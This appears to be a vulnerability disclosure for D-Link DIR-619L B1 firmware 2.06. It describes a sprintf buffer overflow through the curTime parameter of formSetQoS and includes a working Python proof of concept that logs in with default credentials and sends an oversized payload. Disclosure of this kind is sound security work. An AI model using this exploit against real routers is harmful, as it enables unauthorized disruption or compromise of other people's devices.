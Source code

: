 ## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://support.dlink.com/resource/products/DIR-619L/REVB/DIR-619L_REVB_FIRMWARE_PATCH_2.06.B01_WW.ZIP

## Affected version

D-Link DIR-619L B1 2.06

## Vulnerability details

In the D-Link DIR-619L B1 2.06 firmware has a buffer overflow vulnerability in the `formSetQoS` function. The `Var` variable receives the `curTime` parameter from a POST request. However, since the user can control the input of `curTime`, the `sprintf` can cause a buffer overflow vulnerability.

![image-20240926134445195](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240926134445195.png)

## POC

```python
import argparse, requests
import sys
import json

if sys.version_info[0] != 3:
    print("Please run the exploit in python3")
    sys.exit(1)

# You can also login with scripts below.
def login():
    login_url = "goform/formLogin"
    url = base_url + "/" + login_url
    print("1. Login: send request to", url)
    login_data = "curTime=1666884522835&FILECODE=a6.jpeg%0D%0A&VERIFICATION_CODE=LSYFZ&login_n=admin&login_pass=YWRtaW4A"
    response = requests.post(url=url, data=login_data, allow_redirects=False)
    print(response.text)


def poc():
    target_url = "goform/formSetQoS"
    print("2. get target_url:", target_url)
    url = base_url + "/" + target_url
    print("3. send request to", url)
    
    # Using a dictionary to hold multiple parameters
    data = {
        "curTime": "A" * 2000,  # Adjust the number according to your needs
    }
    
    json_data = json.dumps(data)
    print("request body:", json_data)
    response = requests.post(url=url, json=data, allow_redirects=False)
    print(response.text)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Run the exploit')
    parser.add_argument('ip', type=str, default=None, help='The Router IP')
    args = parser.parse_args()

    global base_url
    base_url = "http://{}".format(args.ip)

    # login()
    poc()

```

![image-20240927142954053](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240927142954053.png)
